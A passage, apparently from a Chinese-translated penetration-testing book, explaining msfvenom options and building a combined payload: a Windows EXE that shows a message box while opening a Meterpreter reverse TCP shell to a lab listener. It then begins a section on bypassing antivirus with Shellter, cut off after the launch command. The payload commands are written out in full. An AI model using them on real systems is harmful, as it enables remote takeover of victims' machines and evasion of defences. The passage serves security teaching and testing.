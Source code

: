 +   **--var-name** 命令在我们讨论 shellcoding 时会对我们有用，但即便如此，它也不会做太多事情。它真正是为那些喜欢与众不同并使用自定义输出变量名称的人准备的。

+   **--timeout** 命令是生成大有效载荷的一个新特性；它防止在读取有效载荷时出现超时。这个需求来自那些将**msfvenom**的输出通过管道传递到**msfvenom**的用户。你可能不会使用这个选项，但知道它的存在还是挺不错的。

现在我们已经了解了这个工具的强大功能，是时候进行一次包含两个有效载荷的攻击演示了。

## 创建嵌套的有效载荷

接下来，我们将为客户准备一个演示，在该演示中，有效载荷将显示一条消息给用户，内容是**你被搞定了，兄弟！**，同时为监听处理器创建一个 Meterpreter 会话。

有两个有效载荷，所以我们必须使用两个命令，它们如下：

# msfvenom --arch x86 --platform windows --payload windows/messagebox ICON=INFORMATION TITLE="抱歉" TEXT="你被搞定了，兄弟！" --format raw > Payload1

# msfvenom --add-code Payload1 --arch x86 --platform windows --payload windows/meterpreter_reverse_tcp LHOST=192.168.108.106 LPORT=4567 --format exe > demo.exe

到此为止，我们已经在两个命令中将目标架构和平台设置为 32 位 Windows。在第一个命令中，我们将有效载荷设置为**windows/messagebox**，并设置了**ICON**、**TITLE**和**TEXT**有效载荷选项。（如果你要使用感叹号，就像我们在这里做的一样，在它后面加个空格，避免转义结束的引号，或者使用单引号。）格式是原始二进制格式，因为我们将把它导入到下一个命令中并使用**--add-**code。第二个有效载荷是**windows/meterpreter_reverse_tcp**，它是一个 Meterpreter 会话，连接回我们通过**LHOST**（反向）并通过 TCP 端口连接，我们通过**LPORT**定义了端口。最后，我们希望将结果输出为 EXE 格式。请注意，这只是一个演示；我们通常会推荐其他有效载荷的组合，因为消息框并不算隐蔽：

![图 7.1 – 我们的有效载荷执行结果](img/Figure_7.1_B17616.jpg)

图 7.1 – 我们的有效载荷执行结果

虽然我们将在本书后面讨论 shellcoding 的细节，但值得一提的是，组合有效载荷很可能会在你的作品中引入不良字符。你应该在测试环境中验证你的结果，使用**--bad-chars**来消除类似空字节之类的字符，这些字符几乎肯定会破坏 Windows 的 shellcode。生成有效的 shellcode 并非魔法，因此如果某些有效载荷无法被编码，不要感到惊讶！

## 大乱斗 – 使用 Shellter 绕过防病毒软件

让我们来看一下以下步骤：

1.  首先，我们需要启动 Shellter。要启动 Shellter，请使用以下命令行：

    # shellter

